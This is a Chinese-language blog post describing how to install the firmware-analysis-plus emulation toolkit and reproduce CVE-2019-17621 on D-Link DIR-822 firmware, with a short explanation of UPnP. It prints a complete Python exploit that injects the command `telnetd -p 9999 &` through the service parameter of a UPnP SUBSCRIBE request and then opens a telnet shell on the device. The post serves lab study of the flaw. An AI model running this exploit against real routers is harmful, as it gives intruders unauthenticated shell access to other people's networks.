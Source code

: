 ```yaml
---
layout: post
tags: [iot]
title: "Firmware analysis plus"
date: 2023-5-20
author: wsxk
comments: true
---
```


- [前言](#前言)
- [install](#install)
- [CVE-2019-17621漏洞复现](#cve-2019-17621漏洞复现)
  - [1.uPnP协议](#1upnp协议)
  - [2. exp](#2-exp)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

## 前言<br>
`firmware-analysis-plus` 来自三个上游工具`binwalk、firmadyne、firmware-analysis-toolkit`，实不相瞒，这叁工具我都用过，有一定的功效性，但是不能其实功能不是很稳定，存在缺陷。<br>
偶然发现了高级东西`firmware-analysis-plus`在前三个工具的基础上更新了新内容，我还是很想体验一下用法的。<br>

## install<br>
在`ubuntu20`上进行安装，十分友好<br>
[https://github.com/wsxk/firmware-analysis-plus](https://github.com/wsxk/firmware-analysis-plus)<br>
安装很友好！<br>

## CVE-2019-17621漏洞复现<br>
[CVE网址](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17621)<br>

### 1.uPnP协议<br>
uPnP，全称Universal Plug and Play，中文可以翻译为“通用即插即用”。这是一种网络协议，允许网络设备之间无缝的发现和交互。这种协议被广泛应用于家庭和小型企业网络中。<br>
UPnP的目标是实现设备的动态连接，设备可以自动化地加入网络、获取IP地址、公布其服务供其他设备或控制点使用，以及接收并处理来自其他设备或控制点的服务请求。它的设计理念是“即插即用”，即设备能够在插入网络时立即可用，不需要进行复杂的设备设置或网络配置。<br>
UPnP支持各种各样的设备，包括但不限于计算机、打印机、摄像头、路由器、移动设备、智能电视等。通过使用UPnP，这些设备可以自动发现网络上的其他设备并与之交互。例如，一部UPnP兼容的智能电视可以自动发现网络上的媒体服务器，并从媒体服务器上播放视频或音频。<br>
然而，虽然UPnP提供了很大的便利性，但它也有一些安全问题。因为UPnP假设网络中的所有设备都是可信的，所以它没有内置的安全机制。这意味着恶意设备可以利用UPnP来执行不安全的操作，例如打开路由器的端口，使得外部攻击者可以访问网络内部的设备。因此，在使用UPnP时，我们需要对网络安全保持警惕。<br>

### 2. exp<br>
使用`python3 fap.py -q qemu-builds/2.5.0/  testcases/DIR822A1_FW103WWb03.bin` 复现环境<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2023-4-27-vscode_cmake/20230609230012.png)
使用如下脚本进行复现<br>
```python
import socket
import os
from time import sleep
# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    sleep(1)
    print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send((request).encode())
    results = con.recv(4096)
    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
serverInput = '192.168.0.1'
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2023-4-27-vscode_cmake/20230609230209.png)
可以发现成功进入后台。<br>